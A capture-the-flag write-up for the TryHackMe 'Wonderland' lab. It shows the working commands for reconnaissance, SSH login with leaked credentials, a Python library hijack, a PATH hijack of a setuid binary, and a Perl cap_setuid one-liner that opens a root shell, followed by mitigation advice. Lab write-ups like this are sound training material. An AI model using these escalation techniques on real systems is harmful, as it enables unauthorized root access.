 # Vulnerability Assessment and Penetration Testing (VAPT) Report – Wonderland

**Prepared by:** Nishanth Antony  
**Date:** September 1, 2025  
**Difficulty:** Medium  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify open ports and hidden directories on the target.  
**Commands Used:**  
- `nmap -p- --min-rate=1000 <target_ip> -sV -T4 -v`  
- `gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt`  
- `gobuster dir -u http://<target_ip>/r/ -w /usr/share/wordlists/dirb/common.txt`  
- `gobuster dir -u http://<target_ip>/r/a/b/b/i/t/ -w /usr/share/wordlists/dirb/common.txt`  

**Findings:**  
- Open ports: SSH (22, OpenSSH 7.6p1) and HTTP (80, Golang net/http server).  
- Initial Gobuster revealed `/img`, `/index.html`, and `/r` directories.  
- Further enumeration on `/r/a/b/b/i/t/` confirmed `/index.html`.  
- Downloaded `alice_door.jpg` from `/img/`, but initial steganography attempts failed.  

---

## 2. Exploitation Process  
**Step 1 – Web Enumeration and Credential Discovery**  
- Performed directory enumeration with Gobuster, identifying `/r/a/b/b/i/t/` as a potential entry point.  
- Inspected the `/r/a/b/b/i/t/index.html` page source code, revealing credentials: username `alice` and password `Wonderland2020`.  
- Attempted SSH login with these credentials:  
  ```bash
  ssh alice@<target_ip>
  alice@<target_ip> password: 
  Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)
  ...
  Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
  alice@wonderland:~$ ls
  root.txt  walrus_and_the_carpenter.py
  ```
- Outcome: Successfully logged in as `alice`, but `root.txt` access was denied.  

**Step 2 – Privilege Escalation Preparation**  
- Checked sudo privileges:  
  ```bash
  sudo -l
  User alice may run the following commands on wonderland:
      (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
  ```
- Attempted to inject code by creating `random.py`:  
  ```bash
  echo "import subprocess;subprocess.call('/bin/sh');" > random.py
  sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
  whoami
  rabbit
  ```
- Initial execution failed due to script errors, but provided a temporary shell as `rabbit`.  

**Step 3 – Advanced Privilege Escalation**  
- Explored `/home/rabbit/teaParty`, a setuid binary owned by root:  
  ```bash
  ls -lah
  -rwsr-sr-x 1 root root 17K May 25 2020 teaParty
  ```
- Modified `PATH` to exploit `teaParty`:  
  ```bash
  export PATH=/home/rabbit:$PATH
  echo "/bin/bash" > date
  chmod +x ./date
  ./teaParty
  Welcome to the tea party!
  The Mad Hatter will be here soon.
  Probably by hatter@wonderland:/home/rabbit$
  ```
- Gained shell as `hatter` due to `teaParty` executing the custom `date` script with elevated privileges.  

**Step 4 – Post-Exploitation and Root Access**  
- Found `password.txt` in `/home/hatter/`:  
  ```bash
  cat password.txt
  WhyIsARavenLikeAWritingDesk?
  ```
- Attempted `su hatter` with the password, but `/root` access was denied.  
- Discovered capabilities on `/usr/bin/perl5.26.1`:  
  ```bash
  getcap -r / 2>/dev/null
  /usr/bin/perl5.26.1 = cap_setuid+ep
  ```
- Executed privilege escalation:  
  ```bash
  /usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
  # whoami
  root
  # cat /home/alice/root.txt
  thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
  ```
- Outcome: Root flag retrieved.  

---

## 3. Proof of Concept (PoC)  
- **SSH Access:**  
  `ssh alice@<target_ip>` with `Wonderland2020` from `/r/a/b/b/i/t/index.html`.  
- **Privilege Escalation:**  
  `export PATH=/home/rabbit:$PATH; echo "/bin/bash" > date; chmod +x ./date; ./teaParty` to gain `hatter` shell.  
  `/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` to escalate to root.  

---

## 4. Privilege Escalation and Post-Exploitation  
**Post-SSH Access as Alice:**  
After gaining SSH access as `alice`, initial exploration revealed `root.txt` and `walrus_and_the_carpenter.py`. The `root.txt` file was inaccessible due to permissions, indicating a need for privilege escalation. The `sudo -l` command disclosed that `alice` could execute `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as user `rabbit`. This suggested a potential code injection vulnerability. Creating `random.py` with a shell command (`import subprocess;subprocess.call('/bin/sh');`) and running it via sudo provided a brief `rabbit` shell, but the script crashed due to an `AttributeError` in the original Python file, limiting further immediate exploitation.

**Privilege Escalation Details:**  
- The `teaParty` binary in `/home/rabbit/` had the setuid bit set (`-rwsr-sr-x`), allowing it to run with root privileges. Its functionality included executing a `date` command, which could be hijacked by modifying the `PATH` environment variable. By placing a custom `date` script (`/bin/bash`) in `/home/rabbit/` and adjusting `PATH`, `teaParty` executed this script, escalating privileges to `hatter`.  
- Further exploration as `hatter` revealed `password.txt` with a password, but `su hatter` didn’t grant `/root` access. Using `getcap`, capabilities on `/usr/bin/perl5.26.1` (`cap_setuid+ep`) were identified, enabling a Perl one-liner to set the UID to 0 and spawn a root shell. This method leveraged the capability to bypass traditional privilege checks, granting full root access to retrieve the flag from `/home/alice/root.txt`.

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Restrict access to sensitive directories (e.g., `/r/a/b/b/i/t/`).  
- **SSH Security:**  
  - Avoid exposing credentials in web page source code; enforce strong passwords.  
- **Privilege Management:**  
  - Remove setuid bits from unnecessary binaries (e.g., `teaParty`).  
  - Restrict sudo commands to specific, non-executable arguments.  
- **Capability Control:**  
  - Limit capabilities (e.g., `cap_setuid`) to trusted binaries only.  
- **Patch Management:**  
  - Update OpenSSH and Golang services to latest versions.  
  - Monitor for unauthorized file modifications.  

---

## 6. Lessons Learned  
- **Credential Exposure:** Web source code can leak sensitive credentials.  
- **Setuid Exploitation:** Misconfigured setuid binaries are prime escalation targets.  
- **Capability Abuse:** Capabilities like `cap_setuid` can be exploited if improperly assigned.  

---

## 7. Skills Practiced  
- Network scanning (nmap)  
- Web directory enumeration (gobuster)  
- SSH access via web-discovered credentials  
- Privilege escalation (setuid, capabilities)  
- Secure reporting and mitigation strategies  
